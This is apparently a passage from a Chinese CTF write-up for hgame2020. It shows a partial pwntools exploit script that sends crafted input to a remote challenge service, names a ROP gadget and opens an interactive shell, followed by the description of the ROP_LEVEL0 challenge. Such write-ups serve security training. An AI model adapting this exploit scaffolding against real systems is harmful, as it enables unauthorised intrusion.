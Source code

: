 ```python
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
# gadget
prdi = 0x00000000004008a3 # pop rdi ; ret

# elf, libc

# rop1

ru('name?\n')
sl('a'*31)
ru('shot!\n')
sl(str(0x6010e0-1))

# debug()
# info_addr('tag',addr)
# log.warning('--------------')

p.interactive()
```



### ROP_LEVEL0

 - 题目描述：ROP is PWNers' romance
 - 题目地址：[ROP_LEVEL0](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/hgame2020/pwn/week1_4/ROP_LEVEL0)
 - 考察点：ROP攻击
 - 难度：简单
 - 分值：150 
 - 完成人数：88
